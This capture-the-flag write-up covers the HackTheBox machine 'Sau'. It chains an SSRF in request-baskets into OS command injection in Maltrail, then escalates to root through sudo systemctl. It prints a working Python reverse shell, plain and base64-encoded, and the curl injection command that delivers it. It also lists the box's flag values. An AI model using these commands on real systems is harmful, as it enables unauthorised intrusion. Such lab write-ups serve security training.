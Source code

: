 ```yaml
---
layout: default
title: Sau
nav_order: 1
parent: HackTheBox
grand_parent: Writeups
has_children: true
permalink: /writeups/hackthebox/sau
---
```


# Sau

Easy
{: .label .label-green }

request-baskets
{: .label .label-purple }

maltrail
{: .label .label-purple }

systemctl
{: .label .label-purple }

View on [Github](https://github.com/lamachin3/lamachin3.github.io/tree/main/writeups/HackTheBox/Sau)

# Enumeration

## Nmap scan

```bash
nmap -sCV 10.129.16.58
```

![Untitled](images/Untitled.png)

## Port 55555

![Untitled](images/Untitled%201.png)

Footer:

![Untitled](images/Untitled%202.png)

CVE-2023-27163

[https://gist.github.com/b33t1e/3079c10c88cad379fb166c389ce3b7b3](https://gist.github.com/b33t1e/3079c10c88cad379fb166c389ce3b7b3)

- Create a new basket test
- Configure the basket so that the SSRF can be reproduced. Here is what is the configuration settings of your basket should look like:

![Untitled](images/Untitled%203.png)

⚠️ Don’t forget to setup the proxy response

- Now by accessing url `http://<box_ip>:55555/test` we are directly targeting the web server that is hosted on port 80.

# Port 80

The app doesn’t load properly as our browser can access the different assets however we get one valuable information:

![Untitled](images/Untitled%204.png)

Looking on the internet we can quickly find an OS command injection on Maltrail v0.53: [https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/](https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/)

To replace it we must change the basket settings to the following:

![Untitled](images/Untitled%205.png)

An then perform a curl request containing our command:

```bash
curl 'http://<box_ip>:55555/test' --data 'username=;`inject command here`'
```

Here is a quick test to see if the target can actually communicate back with and if the command injection works or not:  

![Untitled](images/Untitled%206.png)

# Initial Access

To get our initial access we need to start a reverse shell through the command injection. However when trying to do so we get errors due to the interpretation of our request:

![Untitled](images/Untitled%207.png)

To avoid this we will first encode our python reverse shell to base64 and then decode and execute it in our command injection:

[https://www.base64encode.org/](https://www.base64encode.org/)

[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Reverse Shell Cheatsheet.md#python](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python)

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.59",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'

cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjEwLjE1LjU5Iiw0MjQyKSk7b3MuZHVwMihzLmZpbGVubygpLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO2ltcG9ydCBwdHk7IHB0eS5zcGF3bigic2giKSc=
```

And build our curl request with it:

[https://serverfault.com/questions/896695/how-do-i-run-a-command-from-a-base64-encoded-string-in-bash](https://serverfault.com/questions/896695/how-do-i-run-a-command-from-a-base64-encoded-string-in-bash)

```bash
curl 'http://10.129.14.164:55555/test' --data 'username=;`echo cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjEwLjE1LjU5Iiw0MjQyKSk7b3MuZHVwMihzLmZpbGVubygpLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO2ltcG9ydCBwdHk7IHB0eS5zcGF3bigic2giKSc= | base64 -d | sh`'
```

![Untitled](images/Untitled%208.png)

We can now collect the user flag:

![Untitled](images/Untitled%209.png)

<details markdown="1">
<summary><b>user.txt</b></summary>
```bash
e202ef973e59eeece9997ae5e5fdea65
```
</details>

# Host Enumeration

## linpeas

Being on a linux host we run linpeas to automate some of the host enumeration tasks.

To do so:

- first download [linpeas.sh](http://linpeas.sh) from their webpage: http://linpeas.sh
- put in a directory which you can expose and start a basic python web server to expose the file system:

```bash
python -m http.server 8000
```

- from the target use wget to collect the script

```bash
wget <attacker_VPN_IP>:8000/linpeas.sh
```

- make the script executable and run it

```bash
chmod +x linpeas.sh
./linpeas.sh
```

One interesting thing comes out, we can run a systemctl command as root without password.

![Untitled](images/Untitled%2010.png)

Following process `c` from the gtfobins project ([https://gtfobins.github.io/gtfobins/systemctl/#sudo](https://gtfobins.github.io/gtfobins/systemctl/#sudo)) we can achieve a privilege escalation to gain root access:

![Untitled](images/Untitled%2011.png)

# Privilege Escalation

Using the fact that we can run the sudo command on systemctl without password we can used in the systemctl pager (probably less) mode with allows us to gain a shell access as root:

```bash
sudo /usr/bin/systemctl status trail.service
input> !sh
```

<details markdown="1">
<summary><b>root.txt</b></summary>
```bash
5651424d57f102eb30d2b111a28a785e
```
</details>